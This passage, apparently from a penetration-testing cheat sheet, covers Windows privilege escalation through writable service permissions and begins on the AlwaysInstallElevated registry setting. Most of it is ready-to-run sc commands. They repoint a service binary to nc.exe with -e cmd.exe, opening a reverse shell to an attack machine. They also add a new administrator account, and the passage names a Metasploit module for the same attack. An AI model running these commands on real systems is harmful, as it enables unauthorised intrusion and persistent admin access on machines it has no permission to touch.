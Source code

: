 A service with write permissions for an authenticated user looks like this:

```text
RW [service name] SERVICE_ALL_ACCESS
```

Show the service properties:

```text
sc qc [service name]
```

This is where you can find out the `BINARY_PATH_NAME` value. Change the binary path on a particular service:

```text
sc config [service name] binpath= "C:\tmp\nc.exe -nv [attack machine] 4444 -e C:\WINDOWS\System32\cmd.exe"
sc qc [service name]
sc stop [service name]
sc start [service name]
```

If the service is disabled when you type in `sc qc [service name]` you can enable it using `sc config SSDPSRV start= auto` - note that there is a space between the `=` and the option.

Common errors include ftp-ing `nc.exe` without using the `binary` command first and using the wrong `"` in the path. If you're working with Windows XP, you'll need to [download this version](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe). Also, the Administrator shell fired using this method will not last, so you should send yourself another shell immediately with a different port: 

```text
C:\tmp\nc.exe -nv [attack machine] 80 -e C:\WINDOWS\System32\cmd.exe
```

You can also add a new user and grant administrator rights using the binary path:

```text
sc config [service name] binpath= "net user admin password /add"
sc stop [service name]
sc start [service name]
sc config [service name] binpath= "net localgroup Administrators admin /add"
sc stop [service name]
sc start [service name]
```

Again, if you're super lazy here's a Metasploit Module: `exploit/windows/local/service_permissions`

## AlwaysInstallElevated setting

Windows registry has a setting that allows non-privileged users to install Microsoft Windows Installer Package Files \(MSI\) with elevated system permissions. There are 2 registry entries which have to be set to `1` to enable this setting.

Check the values of the registry keys:

```text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
